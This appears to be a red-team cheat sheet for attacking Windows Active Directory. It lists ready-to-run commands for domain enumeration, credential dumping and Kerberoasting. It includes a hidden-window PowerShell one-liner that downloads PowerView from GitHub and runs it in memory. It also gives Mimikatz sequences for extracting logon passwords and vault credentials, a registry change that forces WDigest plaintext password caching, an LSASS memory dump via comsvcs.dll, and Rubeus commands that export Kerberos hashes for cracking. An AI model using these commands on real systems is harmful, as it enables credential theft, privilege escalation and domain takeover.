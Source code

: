 ## Domain Enumeration

### nltest

```
nltest /dclist:
nltest /domain_trusts
nltest /domain_trusts /all_trusts
```

### PowerView

`powershell -noP -w hidden /c iex (New-Object System.Net.Webclient).DownloadString(https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1);Get-CachedRDPConnection > c:/perflogs/c.txt`

`Invoke-UserHunter`

### Bloodhound

`SharpHound.exe –ldapusername [username] --ldappassword [password] --domain [domain.com]`

In Kerberos, I will show a screenshot of the "Shortest Path to Domain Admins from Kerberoastable Users" option. This will show an account residing in the environment that is Kerberoastable and will be a domain admin.

## Cred access

NOTE: No time to also include CrackMapExec

### Mimikatz

```
mimikatz # privilege::debug
mimikatz # log
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest
```

We could have WDigest raw passwords not set. So once we do the above, we could then run the following, log out of the machine, re-login, and then run again to see the plaintext password. Cool be cool.

`reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 1`

```
mimikatz # vault::cred /patch
```

### Minidump

`rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full`

#### BONUS: Dump review in Mimikatz

```
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords
```

## Kerberoasting

### Rubeus

`Rubeus.exe kerberoast /ldapfilter:'admincount=1' /format:hashcat /outfile:C:\ProgramData\hashes.txt`

### Mimikatz

`get-aduser -filter * -properties ServicePrincipalName | Select SamAccountName, ServicePrincipalName | where {$_.ServicePrincipalName -ne $null} | fl`

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "VULN SPN GOES HERE"
```

```
mimikatz
privilege::debug
kerberos::list /export
```
